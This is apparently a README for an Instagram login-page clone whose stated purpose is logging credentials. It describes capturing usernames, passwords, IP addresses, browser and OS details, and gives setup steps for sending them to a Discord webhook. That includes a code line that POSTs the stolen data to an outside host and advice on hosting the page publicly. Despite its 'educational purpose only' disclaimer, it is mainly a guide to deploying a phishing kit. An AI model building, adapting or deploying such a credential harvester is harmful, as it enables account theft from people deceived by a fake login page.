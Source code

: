# 📸 Instagram-Like Credential Logger (Educational Purpose Only)

> ⚠️ **Disclaimer**  
> This project is intended strictly for **educational**, **testing**, or **authorized cybersecurity simulations** only. Unauthorized use of this tool for phishing, credential theft, or deception is **illegal** and against GitHub’s and Discord’s terms of service.

---

## 🚀 About the Project

This is a **replica of Instagram's login UI** that logs user credentials and sends them to a specified **Discord webhook** using an embed format. It also captures the **user's IP address**, **browser information**, and **operating system** for simulation of phishing scenarios or penetration testing environments.

---

## 🖥️ Interface Of Phishing Site:

![screenshot](images/instagram.jpg) 
![screenshot](discord.jpg) 

---

## 🧰 Features

- 📥 Captures `username` and `password`
- 🌐 Logs user's **IP address**
- 🖥️ Logs **Browser** and **Operating System**
- 📤 Sends all data via **Discord Embed** with rich formatting
- 🪞 Fully responsive and styled to match Instagram login UI
- ⏳ Includes redirect delay (2 seconds) after login
- 🌐 Easily hosted on GitHub Pages, Netlify, or localhost

---

## 🛠️ Discord Webhook Setup Instructions

### 1. Locate the Webhook Function

- Open the `index.html` file in your code editor.
- Scroll down to find the `sendMessage()` JavaScript function.

### 2. Update the Webhook URL

Inside the `sendMessage()` function, look for this line:
request.open("POST", "https://discord.com/api/webhooks/...");

- Replace it with your actual Discord webhook URL. You can create one via:
- Discord → Server Settings → Integrations → Webhooks → New Webhook
- Then update the code
